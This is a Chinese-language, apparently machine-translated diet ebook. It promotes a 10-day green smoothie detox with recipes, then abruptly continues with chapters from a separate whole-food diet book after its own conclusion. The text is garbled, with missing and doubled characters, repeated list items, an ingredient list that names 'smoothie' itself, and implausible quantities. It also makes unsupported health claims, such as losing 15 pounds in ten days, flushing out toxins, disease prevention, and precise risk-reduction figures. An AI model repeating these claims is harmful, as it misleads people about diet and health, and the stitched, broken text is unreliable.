- 想利用能量来增强力量的人。
- 想做出更健康选择并恢复正常饮食习惯的人。
- ……以及更多！

所以你还在等什么？从今天开始阅读并改变你的生活方式吧！

再次感谢下载这本书，希望你喜欢！

不要忘记查看底部我最喜欢的饮食方案之一：

**学习我如何通过 3 周饮食快速消除顽固脂肪的策略。**

**前往底部获取更多信息，并接收免费报告和额外内容！**

# 第 1 章：了解 10 天绿色奶昔排毒计划

一种减肥并变得更健康的新方法正在兴起。介绍：10 天奶昔排毒。这项饮食计划旨在实现以下目标：

- 重塑味蕾。
- 通过增加新代谢促进脂肪燃烧。
- 消除对甜食、加工和其他不健康食物的渴望。
- 节省金和时间。
- 为运动和其他剧烈活动提供额外能量。
- 释放体内的毒素和其他杂质。
- 有效减轻多达 15 磅体重并收紧腰部多余脂肪。

通过简单的进行 10 天的绿色奶昔清洁或排毒，这一切都是可能的。

## 绿色是王道！

说起健康，绿色是趋势。如今，人们越来越关注健康。然而，许多人困惑于应该遵循哪种健康指南。如果一个人仅仅基于互联网上的可用信息，可能会变得迷失和困惑，而不是开明。

例如，你会看到一篇推广咖啡益处的文章，而在另一篇文章中会提到喝咖啡的危险。一篇文章强调限制碳水化合物摄入，而另一篇则推崇高碳水化合物饮食。

对于绿色食物来说，这并不是问题。任何绿色的东西（无论是饮料、水果、坚果还是蔬菜）始终属于健康范畴。各种研究和调查也证明了绿色（食物或饮料）如何成为减掉多余脂肪的最佳工具。它们热量低，而且大多数是释放脂肪的营养物质的丰富来源。这些营养物质通过将身体的脂肪储存模式切换为脂肪溶解模式来发挥作用。

是一些健康绿色物品的示例：

## 绿色叶叶蔬菜

1. 羽衣甘蓝
2. 菠菜
3. 蒲英草
4. 罗马生菜
5. 黄瓜
6. 芝麻菜
7. 上海菜
8. 甜菜根叶
9. 胡萝卜叶
10. 羽衣甘蓝
11. 萝卜顶叶
12. 芥菜
13. 芜菁叶
14. 水芹菜
15. 春菜
16. 生菜
17. 公英叶

## 绿色水果

1. 鳄果
2. 绿苹果
3. 绿葡萄
4. 奇异果
5. 绿芒果
6. 释波罗或糖苹果
7. 荔枝
8. 香蕉
9. 青柠檬
10. 芭乐
11. 梨

## 绿色饮料

1. 绿茶
2. 绿汁
3. 绿色奶昔

## 绿色坚果

1. 开心果
2. 南瓜子

## 其他“绿色蔬菜”

1. 海藻
2. 香草
3. 绿橄榄

减肥并不需要昂贵、无聊或困难。通过10天绿色奶昔排毒计划，减掉那些多余的脂肪和体重变得有趣而简单。绿色吧！健康吧！

## 第二章：一种有趣且健康的减肥方法

10天绿色奶昔排毒确实是一种减肥和变得健康的有趣且简单的方法。与其他减重计划不同，由于以下原因，这种排毒更有可能完成（因此，益处也是完整的）：

- 它不耗费时间。时间是许多人的头号敌人。即使涉及他们的健康，他们也没有额外时间来做事情。通过绿色奶昔排毒，每天只需要大约5-10分钟就能做好饮料。是的，就那么简单。以下是制作奶昔的3个基本步骤。
  - 始终从液体成分开始。它可以是水、椰奶、鲜榨果汁、草本茶或杏仁奶。这可以防止搅拌机刀片卡住固体成分。因此，混合成分会更简单更快速。
  - 添加基底。这些是会让奶昔变得非常奶油质的成分。例如原味酸奶、水果（如香蕉、芒果、梨和苹果）、坚果酱和奇亚籽胶。
  - 添加水果、蔬菜和可选添加剂。添加剂包括以下任何：
    - 甜味剂
    - 盐
    - 调料
    - 蛋白粉
    - 其他超级食物（可可、亚籽、蜂粉、麻籽、芦荟、玛咖和其他椰子产品）
- 它很美味。许多饮食计划失败是因为食者无法忍受食物的味道。绿色奶昔排毒计划并非如此。人们实际上可以调整成分来适应自己的口味。然而，警告不要加入过多的糖（无论是通过甜味剂还是水果），否则将重编程味蕾的目的就会落空。

最初，前3天允许70%水果和30%蔬菜的比例。水果的甜味将主导味道。然而之后，比例应该反过来。不过不用担心。到那时味蕾已经调整好了。这个人最终将失去对甜食的渴望。

- 没有剥夺感。整天都吃奶昔和零食。不会有饥饿感迫使食者再次摄入碳水化合物和甜食。这种饱腹感会比平时更持久。这种方式不需要额外的能量，这种这种摄入碳水化合物和和食会更少，从而导致体重减轻。
- 这种排能让身体有额外的能量。这些充满营养的绿色奶昔提供了额外的能量，使他可以进行运动，从而让他减轻体重。
- 价格负担得起。对于这个计划不需要昂贵的机器（除了搅拌机，当然）。水果和蔬菜可以在当地商店购买。那些喜欢有机成分的人甚至可以开始。

通过这个计划，可以节省数百甚至上千美元。每天的绿色奶昔的费用低于10美元。在10天内，这种排毒计划的总体花费低于100元。

- 它能改善心情。绿色奶昔的成分促进了快乐化学物质的释放。例如内啡肽、血清素和多巴胺。它们还可以作为镇痛剂，让个人感觉良好，使他在工作或学校表现更好。
- 它保护个人免受许多疾病。充满毒素的身体能够按照设计运行，导致身体脆弱。绿色奶昔的成分富含维生素、矿物质和电解质，有助于增强免疫系统。因此个人能够对抗病毒和细菌。
- 它让人看起来更年轻。去除体内的杂质会对皮肤产生奇迹。在一个周内可以期待光亮的皮肤。此外头发也会变得光亮光滑。所有这些效果都会让人看起来年轻。

想象一下10天绿色奶昔排毒计划带来的身体、心理、情感甚至是财务方面的处。确实，一切可得，毫无损失。

## 第三章：如何进行10天排毒

10天绿色奶昔排毒就像1-2-3一样简单。然而，在开始排毒计划之前，有以下前提条件：

- 个人应该告知其主要医疗提供者他们排毒的意图。这样可以确保目前或未来的医疗干预不会受到计划的影响。在排毒前进行常规检查也是安全的，以便在需要时有基线信息可用。
- 个人必须尽可能了解关于这个排毒计划的一切知识。他不能仅仅依靠道听。仅仅因为这个计划对他的朋友有效，并不意味着它自动适用于他。他可能有不允许他进行此类计划的健康状况。
- 必须使用生原料。最好使用有机成分。还应该交替使用的绿色蔬菜以避免碱类物质积累。

以下是进行10天绿色奶昔排毒的步骤程序：

1. 选择使用两种类型的排毒计划之一。
   1. 全排毒——个人被指示每天总共服用60盎司奶昔，分为三餐。这意味着在10天内所有的餐都由绿色奶昔组成。
   2. 改良全排毒——对于那些无法适应全排毒计划的人，可以选择每天只喝两份奶昔和一顿轻餐（最好在晚餐时间）。减重效果可能没有全排毒那么显著，但人们仍然预计可以减轻5-10磅。

请注意，饮食者可以根据个人喜好和能力在不同类型之间切换。

- 从常规饮食逐渐过渡到 10 天绿色奶昔排毒。如何做？在计划的第一天，饮食者可以只喝一杯绿色奶昔，最好在早上晨用。午餐和晚餐应仅为轻食。第二天，他可以在早餐和午餐时喝绿色奶昔，午餐时间吃一份轻食。第三天，他就可以按照说明开始全面的排毒程序。
- 完成 10 天排毒后，饮食者必须观察逐渐恢复进固体食物。如何做？不能在第 11 天就吃油腻的固体食物，那可能会导致他恶心和腹胀。相反，他应该用一份轻食代替一份绿色奶昔。第 12 天，可以继续将 2 份奶昔替换为两份轻食。第 13 天，他可以吃 3 顿固体但轻的的。第 14 天，他可以回到之前的饮食。

以下是排毒期间和之后需要记住的其他重要事项。

- 他整天的饮水量必须超过 8 杯。也鼓励饮用草本茶。
- 如果他在两餐之间感到饥饿，可以服用以下作为零食：
  - 苹果
  - 西芹芹
  - 黄瓜
  - 胡萝卜
  - 高蛋白食物，如煮蛋、无糖花生酱和一把生坚果或无盐坚果。
- 最大排毒时间为 14 天。理想时间是 10 天。饮食者不应超过分配的天数。长期吃纯食也有几个医学上的劣势。如果需要再次进行排毒，他可以在常规饮食 1 到 2 个月后重复这一过程。

这些步骤简单易行！此外，这项排毒计划在几周内就能帮助饮食者达到理想体重。

# 第 4 章：10 种经过验证的减肥绿色奶昔配方

以下绿色奶昔配方美味、实惠、易于制作，最重要的是能在 10 天内让人更苗、更健康。

## 第 1 号配方 - 牛油果能量奶昔

原料：

- ½ 个中等牛油果
- 1 杯水
- ½ 杯冷冻或新鲜蓝莓
- ½ 汤匙椰子油
- ½ 汤匙蜂蜜（可选）。你也可以用枫糖浆或甜菊醇代替。其他人使用 ½ 个香蕉来甜味。
- 1 杯奇亚籽（也可以使用奇亚籽胶）
- ¼ 茶匙肉桂

首先混合液体（水、椰子油），然后加入基底（香蕉、蜂蜜、奇亚籽或胶、肉桂）。当已经变得质滑后，加入水果和其他剩余原料。立即享用。将剩余奶昔放入冰箱以保持全天的新鲜。

## 第 2 号配方 - 三重绿色奶昔

这个配方使用了三样东西——菠菜、绿茶和牛油果。这能有多强大，对吧？原料包括：

- ½ 个中等牛油果
- 1 杯绿茶
- 1 杯菠菜
- 1 杯熟芒果块
- ½ 汤匙椰子油


- 一小勺蜂蜜或枫糖浆（取决于对甜度的喜好。有时芒果就足够让奶昔尝起来很甜了）。
- 少许海盐

同样，混合并搅拌所有原料并冷用。如果稠度太厚，只需加一点水。如果没有芒果块，可以用葡萄代替。三重绿色奶昔三倍美味，三倍强大。

## 第 3 号配方 – 菠菜石榴籽草莓绿色奶昔

这种奶昔会有层。底层是粉色的，上层是绿色的。它看起来很有吸引力，味道极佳。

对于底层，原料如下：

- 1 根冷冻小香蕉
- 1 杯草莓
- ½ 杯椰子水

将原料混合并倒入高杯中。

对于上层，原料包括：

- 1 杯菠菜
- 1 杯小香蕉
- ¼ 杯石榴籽
- ¼ 杯椰子水

将这些原料搅拌成奶昔后，立即将其倒在底层之上。冷藏后冷用。这是一种富含抗氧化剂的强大饮料，非常适合那些进行高强度运动的人。

## 第 4 号配方 - 羽衣甘绿色奶昔惊喜

原料包括：

- 1 杯羽衣甘
- ½ 杯椰奶
- 1 ½ 杯菠菠萝
- 1 根熟的小香蕉

可以用苹果代替香蕉。它将产生同样的健康益处。同时，味道也会令人愉悦。

## 第 5 号配方 – 燃脂绿茶奶昔

原料为：

- 3/4 杯绿茶
- 2-3 汤匙柠檬汁
- 2 茶匙龙舌蜜
- 1/8 茶匙辣椒粉
- 1 个带皮的小梨
- 2 汤匙无原味酸奶
- 6-8 块冰块

预计使用这种奶昔减肥得更快。绿茶作为主要成分，已知可以促进代谢，从而增加燃脂能力。

## 第 6 号配方 - 菠菜芒果组合绿色奶昔

在搅拌机中混合以下原料：

- 2 杯菠菜叶或嫩菠菜
- 1 杯新鲜芒果块
- 1 根小香蕉
- 3/4 杯椰奶
- 1/2 杯橙子汁

可选原料包括：

- 1 汤匙椰子油，提供蛋白质和更美味的风味
- 1 汤匙亚麻籽——磨碎后作为蛋白质和 omega 3 的来源

这种清爽的奶昔保证令人享受，同时能有效减掉多余的体重。

## 第 7 号配方 - 健康且美味的绿色奶昔惊喜

原料：

- 1 杯牛奶 – 无脂
- ½ 杯无脂酸奶
- 1 根小香蕉
- 2 杯新鲜菠菜
- 1 汤匙花生酱
- 冰块

这种奶昔最适合需要摄入菠菜但讨厌其味道的人。花生酱实际上有助于去除菠菜的独特味道。人们现在可以享受绿色蔬菜，并在过程中变得更健康。

## 第 8 号配方 - 羽衣甘蓝奶昔惊喜

原料包括：

- 2 杯羽衣甘蓝
- 2 汤匙新鲜挤榨的柠檬汁
- 1 杯绿葡萄
- ½ 杯芒果

不要过度搅拌原料。如果买不到羽衣甘蓝可以使用菠菜。加入更多水让它不那么稠。冷藏后冷用。

## 第 9 号配方 – 蛋白质能量绿色奶昔

原料包括：

- ¼ 杯冷冻芒果
- ½ 杯红西柚汁
- 1 个大苹果（去核并切碎）
- 1 杯羽衣甘
- 1 杯黄瓜
- ½ 杯西芹
- 3 汤匙大麻籽
- 1/8 杯薄荷叶（新鲜）

可选原料：

- 冰块
- ½ 汤匙初榨椰子油

搅拌所有原料直到光滑。如果混合物太稠，加入少量水即可。

## 第 10 号配方 - 热带奇迹奶昔

这是一种让人感觉自己像在岛屿度假的奶昔。在这个过程中也会减轻体重。

原料是：

- 2 杯菠菜
- 1 杯芒果
- 1 杯菠萝
- 1 根熟香蕉
- 1 杯牛奶
- 1 茶匙香草精
- 根据口味添加的甜味剂
- 1 杯喜爱的浆果（草莓、覆盆子、蓝莓）。这是可选的。

搅拌。倒入高杯中。加上小伞装饰。坐下或躺下，让魔法开始。

如果这 10 种配方不符合饮食者的口味，不要灰心。下一章旨在帮助特定的饮食者在结果和味道上找到他们寻找的。请继续阅读！

# 第 5 章：DIY 绿色奶昔

不同的人有不同的需求和喜好。制作绿色奶昔也是如此。这项 10 天排毒计划最好的地方在于，人们可以调整奶昔的原料来适应自己的需求和口味。如何做？自己动手绿色奶昔是答案。

如何操作？首先，饮食者必须评估以下情况：

- 身体需求。他是否进行高强度运动？是在工作还是学习？他需要比平时更多的能量吗？
- 目标。他想减多少磅？
- 口味喜好。他喜欢甜味还是咸味？或者，他更喜欢辣的食物？
- 预算。分配了多少？

使用这 4 个因素，他现在可以开始规划他的绿色奶昔。这是一个基础配方。原料包括：

- 2 杯蔬菜
- 2 杯液体基底（可以是水、椰奶、杏仁奶或椰子水）
- 3 杯水果
- 添加物

## 口味测试

奶昔的主味取决于水果和添加剂。如果饮食者想要更甜一点，那么应该使用芒果、葡萄、香蕉、红枣、山山竹、木瓜和柿子。对于添加剂，他可以放入甜菊糖、枫糖浆或蜂蜜。

如果饮食者喜欢酸味，可以选择蔓越莓、柚子、柠檬、青柠、橙子、石榴和西番柿。

## 更多能量，更多乐趣！

添加剂在提供饮食者所需的热量、蛋白质和其他营养方面起着重要作用。例如，如果他当天要高强度运动，他可能想添加蛋白粉或高蛋白水果，如牛油果和香蕉。他还可以混合瘦肉、鸡肉、鱼类、大豆、豆腐和其他高蛋白食物。它们可以为随后的剧烈活动提供额外能量。

字面上上有数千计的配谱可以用来让人变得健康、减肥并更有活力！

## DIY 绿色奶昔的推荐成分有哪些？

除了卓越的脂肪能力外，这些成分还含有其他健康益处。一个 DIY 奶昔应该包含至少一种或两种成分。

- 1. 牛油果 – 它长期以来被认为是超级食物，因为它含有高含量的：
    - 健康脂肪 – 对心脏有好处
    - 维生素 E
    - 维生素 K
    - 叶酸
    - 维生素 B6
    - 维生素 B5
    - 钾
    - 加上少量的镁、锌、铜、锰、铁以及维生素 B1、B2 和 B3。

似乎这些还不够，牛油果也富含纤维。它们含有叶黄素和玉米黄质等抗氧化营养素，这对眼睛健康都非常重要。它们被认为可以减少白内障和视网膜变性的发生。

- 2. 绿茶。它被誉为地球上健康的饮料。它含有维生素、抗氧化剂和无数营养成分。以下是绿茶的 10 个益处。
- 1. 它富含多酚。这些物质通过减少体内自由基的形成，来保护细胞和分子免受伤害。
- 2. 它含有抗氧化剂表没食茶素酯（GCG）。这种物质是绿茶具有强大药用性的原因。它已知具有治疗各种疾病的能力。
- 3. 它含有适量的咖啡因，能让人保持警觉，而不会产生大量咖啡因带来的“颤抖”效应。
- 4. 它具有抗焦虑作用。绿茶中的茶氨酸可以增加 γ-氨基丁酸（GABA）的活性，从而产生冷静的效果。
- 5. 由于脂肪酸动员，它可以提高身体表现高达 37%。
- 6. 它降低了人患乳腺癌、结直肠癌和前列腺癌的风险。
- 7. 它可以降低老年人患阿尔茨海默症和痴症的风险。
- 8. 绿茶由于其提高胰岛素敏感性和降低血糖水平的能力，患糖尿病的概率降低了 42%。
- 9. 由于系统循环较好，也可以预防心血管疾病。
- 2. 菠菜。这是大力水在每场战斗中击败布鲁托的秘密。这并不意外，因为它含有许多营养成分，可以对抗癌症、哮喘、糖尿病、高血压、骨骼疾病等主要疾病。此外，它的热量很低。
- 4. 石榴。石榴的健康益处也很多。这种水果富含纤维、蛋白质、维生素 C 和 K、叶酸和钾。其被称为石榴鞣和石榴酸的独特物质具有药用。它们可以减轻炎症，从而保护个体免受 100 多种炎症性疾病的影响。
- 5. 草莓。这种超级食物的健康益处包括：
    - 1. 它具有抗癌特性。
    - 2. 它可以增强免疫系统。
    - 3. 它促进眼睛健康。
    - 4. 它预防心血管疾病。
    - 5. 它具有抗衰特性。
- 6. 羽甘蓝。它被认为是地球上最健康的食物之一。它富含维生素 A、C、K 和 B6。含有镁、锰、铜、钙和钾。因为它含有黄酮和山�酚等抗氧化物质，它可以对抗癌症。它有助于降低胆固醇，减少心血管疾病的发生。在健康方面，羽甘蓝是之王。
- 7. 香蕉。这种水果会导致内啡肽释放，让人更快乐。此外，它富含血清素（另一种情绪增强剂）。人感到轻盈和积极。作为复合碳水化合物，它为进行高强度运动的人提供适当的能量。由于富含钾，运动期间可以防止腿抽筋。
- 8. 芒果。它富含维生素和矿物质。因为它含有益生元纤维，所以对胃肠系统有好处。它含有多酚抗氧化化合物，使其对抗乳腺癌、结肠癌、前列腺癌和血液癌非常有效。
- 9. 奶昔。由于其高钙含量，可以预防骨质疏松等骨骼疾病。最近的研究还将奶昔与降低血压有关。此外，它被发现对使胃肠系统更健康有效。
- 10. 羽甘蓝。在降低胆固醇方面，没有什么能比过羽甘蓝。因此，可以确保心脏健康。羽甘蓝并不广为人知，但在对抗各种癌症方面非常棒。它们含有硫代葡萄糖苷，即萝卜硫、葡萄糖硫素、硫氰酸盐和硫硫，可以减轻炎症。有了这些营养丰富的成分，就能确保心脏健康。

# 第 6 章：奶昔的实用贴士

制作绿色奶昔的简单程序仍然可以改进。这里是一些实用的贴士：

- 不要用冰块，而是冷冻水果或蔬菜。这会让搅拌不那么凌乱。
- 剩余的奶昔应该一直放在冰箱里。然而，如果当天不喝，最好将其冷冻。那可以在其他时候做成冰棒。
- 孩子和大人都会喜欢剩余奶昔制成的冰棒。只需将其放在纸杯里，然后在中间插一根。
- 使用季节性水果或蔬菜。这将为饮食者节省大量资金。
- 不要忘记更换成分，特别是蔬菜。这除了避免对奶昔感到腻味，还能防止碱类积累。
- 加点料！通过添加辣椒、肉桂、生姜、肉蔻和其他香草和香料为绿色奶昔增加趣味。
- 使用椰子水代替冰块。不仅可以改善味道，还能为已经丰富的奶昔增加营养。椰子因钾、镁和其他电解质闻名。
- 添加营养丰富的全谷物。它们可以提供更多的能量，而且有很多处。
- 剩余的奶昔可以加入烘焙食品中。这会让人的布朗尼更有趣、更有味道。不要害怕尝试。先在一小部分进行测试。如果实验成功，再为整个烘焙食品制作奶昔。
- 尽可能使用有机水果和蔬菜。
- 不要过度搅拌水果。有些人喜欢在奶昔中保留水果块。
- 尽管液体是第一个倒入的物品，但不要一次性倒入。在过程中间加入剩余的液体。
- 展示也很重要。在供应奶昔之前，在杯边放一小块水果或进行一点装饰可以产生很大影响。

制作绿色奶昔有趣又简单！

## 第7 章：绿色奶昔 + 健康生活方式 快乐与长寿

绿色奶昔排毒已被证明能帮助人在 10 天内减轻多达 15 磅。然而，它们并非能让人永远保持苗条的魔方或神灯。要维持理想体重，需要改变自己的生活方式。

不健康的习惯通常是导致多余脂肪的罪魁祸首。因此，如果一个人不采取行动来根除或减少这些习惯，减掉的体重会迅速反弹。这就是为什么“溜溜球效应”在减肥者中很常见。他们一个月内瘦了，下下个月又在增加体重。这种循环不会停止。必须改变某些东西了。

绿色奶昔可以成为人们所渴望的永久减肥的开端。然而，还需要满足其他要求。请看以下内容：

- 停止过量饮酒。酒精中除了空热量外什么也没有。它不含任何营养成分。此外，人在喝酒时往往倾向于吃不健康的食品，这又增加了更多的空热量。因此，长期饮酒者不仅营养不良，而且往往于肥胖。除此之外，还有患上肝脏疾病的危险。
- 另一个是摄入过多甜食和加工食品。这将违背绿色奶昔的初衷。奶昔旨在通过重新编程味蕾来让人变得更苗条。然而，摄入这些食物只会导致甜食的渴望再次回来（以及体重增加）。并不是所有人都知道，每喝一杯市售冰咖啡（frappe），相当于做了 2-3 小时的运动。这真的值吗？更不用说，高含糖量让人更容易上可怕的糖尿病。
- 休息和睡眠不足也会导致肥胖。早晨，人醒来时感到很疲惫。他倾向于吃得更多。然后他也会觉得累无法运动。所以他只会躺在床上或什么都不做。休息和睡眠的时间是细胞从全天的压力中恢复的时间，是它们被充电和修复的时间。所以如果一个人错过了这段时间，细胞就会耗损和损坏。它们将无法按照设计的功能运作。此外，睡眠不足会削弱免疫系统，人更容易患病。
- 缺乏运动。缺乏足够的体力活动对健康有害。运动可以改善血液循环。当人在运动时，大脑会释放“感觉良好”的化学物质。活跃的人体，二氧化碳和氧气的交换是良好的。
- 戒烟。一支香烟携带约 400 种毒素进入身体。它是世界上可预防疾病和死亡的首要原因。当人吸烟或吸入环境烟雾时，所有的身体系统都会受到影响。这让他容易患各种疾病，主要是呼吸和心血管系统疾病。
- 压力管理。当面临挑战和困难时，被称为皮质醇的压力激素会被释放。当人知道如何管理问题时，他对身体也做了以下操作：
- 组织灌注良好。所有重要器官和身体其他部位都有足够的氧血供应。
- 血管系统放松。动脉和静脉没有收缩，允许血液在血管内畅畅。
- 身体疼痛减少。防止乳酸形成，因此身体肌肉疼痛减少。
- 肌肉紧张减轻。当压力得到控制时，肌肉也会变得放松。

绿色奶昔可以帮助减肥，但为了维持理想体重，必须将其与健康生活方式的改变相结合。这样，长寿和快乐就变得可行。

为绿色奶昔和健康干杯！

## 结论

再次感谢下载本书！

我希望这本书能够帮你更深入地了解如何利用奶昔排毒来获得你一直渴望体和生活方式。拥有正确的信息和心态，重新恢复身体健康并提高生活质量永远不为太晚。通过充分理解奶昔排毒的工作原理以及它如何改善你的生活，你很快就能恢复体型。

要完全放弃旧习惯可能并非易事，但请知道这是可能的。只要你付出努力，就能实现你的目标。

感谢阅读！如果你喜欢这本书，请考虑在 Amazon 上留下评论。你的反馈对我们不胜感激，并能帮助其他正处于通健康生活方式道路上的人。

## 第 2 章：开始全食饮食

全食饮食被证明是一种非常美味的饮食方式，如果你愿意，它能帮助你减轻体重并让你变得健康得多。有时，你可能会感到有些挣扎，但下面有一些实用的技巧，可以让你的生活变得轻松一点。

## 犯错

我们都会偶尔犯错，即使在开始新的饮食计划时也可能发生错误。你可能会无意中（或刻意地）吃了一些事后后悔的东西的东西。如果发生这种情况，不要恐慌，尽快回到全食饮食即可。

## 寻找你的食材来源

确保你的全食饮食尽可能取得成功的最佳方法之一，就是准确地知道可以从哪里采购食材。如果你足够幸运，附近有一家卖新鲜水果蔬菜和其他健康食品的商店，那么你就已经赢在起点了。

在开始全食计划之前，请规划好你在何时以及何地买到所需的食物。明确哪些可以在网上购买，哪些可以从当地商店购买。这将帮助你理解在食材完全用尽之前，提前多久订购特定物品。

## 与朋友一起开始计划

虽然许多人尝试独自开始新的饮食，但与朋友或家人一起开始饮食的人通常更有成功。这是因为他们有人可以交流心得。而且，与他人共同这段旅程也可能带来很多动力和奖励，而这绝不是坏事。

## 奖励自己

偶尔奖励自己非常重要。不要坚持只吃健康食物，这对你并无好处，因为你的身体也需要脂肪、糖分和盐。每周周末奖励自己一次，这样你就不会觉得错过了什么。或者，每天给自己一个极小的小奖励，但尽量不要过头。

## 关键食物/食材

### 全谷物

全谷物是全食饮食的重要部分。全谷富含纤维、维生素和矿物质。此外，它们可以帮助降低患上 2 型糖尿病的风险，甚至可以帮助降低胆固醇水平。

尽可能购买含有 100% 全谷物的食物，并在烹饪或烘焙时使用全麦面粉。这些食物会让你更有饱腹感，尤其是它们比其他食物加工得少，或者根本没有加工。

### 水果和蔬菜

水果和蔬菜充满了身体所需的各种营养。如果你为身体提供维持正常运转的所有营养，你的健康将会得到改善。此外，由于水果蔬菜中含有高水平的纤维，你可能还会减轻体重。

从当地的蔬菜店或市场购买，那里的食物会比超市的更新鲜、更便宜。

### 乳制品

当你开始全食饮食时，请确保你只享受未加糖、全脂、有机的乳制品。如果可以，也选择放牧饲养的产品。

## 第 3 章：饮食计划（30 天指南）

第 4 章包含了许多供你享用的不同食谱。收录的食谱都是美味且营养丰富的，将帮助让全食饮食变得有趣。有些食谱需要一些时间来制作，而另一些只需要几分钟。

你还会发现，我在饮食计划中加入了非常容易制作的零食和早餐（例如建议你把酸奶作为零食时间的一部分）。我特意加入这些，是因为它们很简单，但对你的健康也非常有益。简单来说，你并不总是需要从零开始制作一道菜来享受美味的食物。一罐天然酸奶就是一种非常健康的零食，即使它是你已经在吃的东西。

## 一小建议

请看一看我添加到书中的食谱。其中可能有些你看起来喜欢的，也可能有些是你想要避开的。无论情况如何，请随时根据你的意修改食谱，并按照你喜欢的频率进行烹饪。

你可能认为我添加了 30 个早餐食谱，然后是 30 个午餐食谱等等。事实上，我添加的食谱较少，因为我想给你机会创造自己的食谱，或者简单地多次享受同一餐点。

你即将开始的全食饮食是非常个性化的。这些食谱只是我添加到书中的建议，但如何使用它们取决于你。某一天你可能做一些非常复杂的食物，第二天你可能只是选择从当地商店买一小袋切好的水果。无论你做什么，无论决定吃什么，请确保它是健康的，并享受它。

# 第 4 章：全食早餐食谱

每天早上都享受美味且营养丰富的早餐。从你可能需要前一天晚上准备的餐点，到完全不需要花费时间的餐点。

## 香蕉树莓奶昔

食材：（2 人份）

- 1 根擦丝的胡萝卜
- 四之三杯树莓
- 1 根香蕉
- 半杯原味酸奶
- 半个橙子
- 四分之一杯燕麦
- 半杯牛奶

将所有食材放入搅拌机中，高速搅拌至光滑。倒入杯中即可上菜。

## 红薯华夫

食材：（4 人份）

- 四分之一杯玉米粉
- 1 半杯全麦糕点面粉
- 半茶匙海盐
- 1 杯红薯泥
- 1 杯酸酪奶
- 2 汤匙红糖
- 四分之一茶匙的肉桂粉
- 2 个鸡蛋
- 4 汤匙融化的无盐黄油
- 喷雾油
- 2 茶匙烘打粉
- 半杯切丁火腿

预热你的华夫机，在碗中搅拌打玉米粉、面粉、烘打粉、糖、肉桂粉和盐。在另一个碗中，搅拌酸酪奶、鸡蛋、红薯泥和黄油。

现在将面粉混合物加入红薯混合物中。搅拌直到食材混合均匀。加入火腿并搅拌。

取喷雾油，喷在华夫机上，然后用勺子将大约三分杯面糊倒入铁具中。按照制造商说明烹饪。上菜。

## 早餐玛芬

食材：（制作12 个）

- 2 片全麦面包
- 4 盎司擦碎切达芝士
- 8 个鸡蛋
- 半磅培根
- 半杯牛奶
- 盐和胡椒

将烤箱预热至 350 华氏度，在玛芬盘中放置 12 个玛芬纸，并将面包切成半英寸见的正方块。在每个玛芬纸的底部放入几个方块。

取一个搅拌碗，搅拌鸡蛋和牛奶，然后用盐和胡椒调味。现在将蛋液分配到每个玛芬纸中。现在在顶部撒上芝士，并加入培根。烘烤大约 15 分钟，直到鸡蛋凝型。上菜。

## 黄油吐司

食材：（1 人份）

- 2 片全麦面包
- 无盐黄油

像正常一样烤面包，然后在顶部涂上你想要量的黄油。热吃或冷吃均可。

## 香蕉能量混合物谷麦片

食材：（2 人份）

- 1 根香蕉
- 四分之一杯全食能量混合物
- 半杯混合麦片
- 1 杯酸奶

将香蕉纵向切开，将每个半部分放入碗中。每个碗中加入半杯酸奶，然后将能量混合物和混合麦片分在两个碗中。上菜。


# 第 5 章：午餐食谱

这些午餐食谱可以装盒带去上班，也可以在家里享用。在接下来的几天里吃剩菜，可以享用到它们最新鲜的美味。

## 豆腐蔬菜炒蛋

食材：（3-4 人份）

- 1 包硬豆腐
- 1 个西红柿，切四份
- 2 杯菠菜叶
- 3 瓣大蒜
- 2 四分之一份的黄色甜椒
- 2 四分之一份的红洋葱
- 八分之一茶匙海盐

将甜椒、菠菜、大蒜、洋葱放入食物加工机中，脉冲搅拌直到所有食材都切碎。

将混合物加入煎锅，用中大火烹饪直到炖腾。现在加入豆腐、海盐并搅拌，确保用勺子切碎大块豆腐。煮到几乎没有剩余液体，即可上菜。

## 豆子意面汤

配料：（3 人份）

- 半个切碎的中等大小洋葱
- 1 瓣切末的大蒜
- 1/8 杯蔬菜汤
- 半根切片的西芹芹
- 半 汤匙橄榄油
- 半罐切碎番茄
- 半根切片的胡萝卜
- 半杯通心意大利面
- 1/8 茶匙海盐
- 半束切片的羽衣甘蓝
- 3/4 杯内豆（borlotti beans）

将豆子浸泡一晚，第二天沥干水。将豆子放入大锅中。加入足够的水，直到没过豆子约 2 英寸，然后煮沸。撇去表面出现的泡沫。调小火，盖上锅盖，焖约 45 分钟，或直到豆子变软。

将胡萝卜、大蒜、洋葱和西芹放入锅中烹饪约 8 分钟，直到它们变软。沥干豆子并加入锅中，连同番茄、2 杯水和盐一起。煮沸后加入意面煮至变软。现在加入羽衣甘蓝，小火焖约 5 分钟。上菜。

## 培根鸡肉杯

配料：（3 人份）

- 1 头罗马罗马生菜叶
- 3 杯切丁鸡肉
- 2 汤匙牛奶
- 6 片切碎的熟煎培根
- 16 盎司樱桃番茄
- 半杯酸奶油
- 1/4 杯切好的洋葱
- 2 汤匙切碎的莳萝
- 1/2 茶匙盐
- 胡椒

将鸡肉、番茄和培根放入碗中混合均匀后置在一旁备。在另一个碗中，打发酸奶油、洋葱、牛奶、盐、胡椒和莳萝。然后将其淋在鸡肉上并混合均匀。

用勺将沙拉装入生菜叶中。上菜。

## 天贝豆腐鲁堡（Tempeh Reuben）

配料：（2 人份）

- 2 片瑞士奶士
- 2 杯蔬菜汤
- 11/2 汤匙番茄酱
- 1 汤匙伍斯特酱汁
- 4 片黑麦面包
- 1/3 杯酸豆菜
- 1/8 杯腌瓜酸末酱
- 1 包天贝豆腐，切成四份
- 1/8 杯希腊酸奶
- 喷雾油

将伍斯特酱汁和蔬菜汤加入酱锅中煮沸，然后转至中火，加入天贝豆腐。焖至变软或约 20 分钟。

将烤箱预热至 400 华氏度（200℃），将天贝豆腐放入烤盘中烤至彻底热，约 15 分钟。将番茄酱、酸酱和酸奶放入小碗中搅拌均匀。

取混合物，涂在每片面包的侧面。将天贝豆腐放在面包上。取酸豆菜铺在豆腐上，然后放上奶士和另一片面包。

取一个平底锅并喷上油，置于中火。将三明治放入锅中，并盖上厚重的盖子以压住三明治。煎约 3 分钟，或直到面包呈金黄色。然后翻面三明治，煎制另一面。上菜。

## 鸡肉凯撒沙拉

配料：（2 人份）

- 100 克切碎鸡肉
- 1/4 杯凯撒沙拉酱
- 1 头切碎的生菜
- 1 罐罐鹰嘴豆

将所有食材放入碗中，拌匀即可上菜。

## 鸡肉卷饼

配料：（3 人份）

- 3 张大墨西哥薄饼
- 半个切丁洋葱
- 3/4 杯糙米
- 半杯玉米粒（冷冻的为佳）
- 1 杯撕丝鸡肉
- 1 茶匙菜籽油
